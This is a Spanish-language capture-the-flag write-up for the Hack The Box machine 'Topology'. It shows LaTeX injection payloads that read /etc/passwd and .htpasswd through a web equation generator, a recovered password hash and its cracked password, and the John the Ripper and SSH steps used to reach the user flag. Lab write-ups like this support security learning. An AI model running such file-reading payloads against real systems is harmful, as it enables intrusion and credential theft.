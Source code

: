 <p align="center">
<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&font=Fira+Code&pause=1000&width=435&lines=Topology" alt="Typing SVG" /></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">
<img src="./Img/dominio.png">
</p>

**Paso 2:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">
<img src="./Img/latex.png">
</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">
<img src="./Img/hash.png">
</p>

```
nano hash
```

**Paso 3:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 4:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.